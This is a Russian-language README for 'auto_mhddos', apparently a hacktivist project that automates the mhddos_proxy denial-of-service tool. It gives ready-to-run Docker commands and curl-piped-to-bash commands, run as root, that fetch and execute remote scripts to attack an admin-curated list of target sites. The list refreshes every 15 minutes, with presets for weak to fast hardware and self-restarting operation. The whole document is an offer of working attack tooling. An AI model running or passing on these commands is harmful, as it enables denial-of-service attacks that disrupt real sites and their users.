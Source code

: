 ### ⭕️ Оперативный штаб Жнецов
![photo_2022-03-17_23-39-03](https://user-images.githubusercontent.com/41838573/158963538-944690c4-83ea-4934-9a29-6eb8f1e61f3a.jpg)


### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

## 🪖 Docker

Установить [Docker](https://docs.docker.com/get-docker/) и запустить команду:

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest [num_of_copies] [threads] [rpc]
```

Все параметры опциональные, но если передаются, то строго в указанном порядке.

### Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ). Эти же параметры использутся по умолчанию, если запускать команду без аргументов.


```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 1 500 100
```

-- Среднее: 


```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 2 1000 200
```

-- Быстрое: 


```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 2 2000 1000
```

Значение параметров на примере "1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.

## 🪖 Bash

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

### 1. Установка.

Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash
```

Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### 2. Запуск.

Bash скрипт работает в Linux и WSL (Windows Subsystem for Linux).

Не забудьте сначала выполнить пункт №1 (Установка). Также не забудьте получить права root `sudo su`.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash
```

### Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ). Эти же параметры использутся по умолчанию, если запускать команду без аргументов.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 500 100
```

-- Среднее: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 1000 200
```

-- Быстрое: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 2000 1000
```

Значение параметров на примере "bash -s -- 1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.

# ❕Описание
* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 1 копию mhddos_proxy. Если запустить больше, то каждая копия будет независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели. Если будет мало целей, лишние копии программы просто не будут запускаться.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash | bash -s -- 3` Если в списке всего две цели, то запускать три копии нет смысла. Вреда правда тоже не будет. Скрипт запустит только необходимое кол-во копий.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

# ❌ Завершение скрипта

CTRL+C срабатывает не всегда. Поэтому можно:

* Просто закрыть окно с терминалом.

ИЛИ

* В другом терминале выполните команду "pkill python3", а потом в основном терминале нажмите CTRL + C.

### 🇺🇦🇺🇦🇺🇦 СЛАВА УКРАЇНІ 🇺🇦🇺🇦🇺🇦
### ПТН ХЛО 🤡
